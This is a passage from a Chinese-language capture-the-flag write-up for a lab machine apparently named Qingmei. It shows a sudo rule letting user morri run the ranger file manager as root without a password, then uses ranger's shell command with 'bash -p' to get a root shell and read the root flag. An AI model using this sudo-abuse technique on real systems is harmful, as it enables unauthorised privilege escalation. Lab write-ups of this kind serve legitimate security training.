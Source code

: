     User morri may run the following commands on Qingmei:
        (ALL) NOPASSWD: /usr/bin/ranger
    ```
    `morri` 用户可以无密码以 `root` 权限执行 `/usr/bin/ranger`。

*   **利用 `ranger` 提权：**
    `ranger` 是一个终端文件管理器，可以通过其内置的 shell 执行功能来获取 `root` shell。
    执行 `sudo /usr/bin/ranger`。在 `ranger` 界面中，按下 `s` 键，然后输入 `bash -p` 并执行。参数 `-p` 确保 `bash` 以特权模式启动，从而继承 `sudo` 赋予的 `root` 权限。

    ```bash
    morri@Qingmei:~$ sudo /usr/bin/ranger
    # 此处进入 ranger 界面
    # 在 ranger 界面中按 's' 键 (或 ':')，然后输入 'bash -p' (或 'sh -p') 并回车
    ```
    执行后，成功返回一个 `root` shell。
    ```bash
    root@Qingmei:~# id
    uid=0(root) gid=0(root) groups=0(root)
    root@Qingmei:~# cat /root/root.txt 
    flag{root-485ee7a8-33f0-11f0-afbc-000c2955ba04}
    ```
    成功获取 `root` 权限。

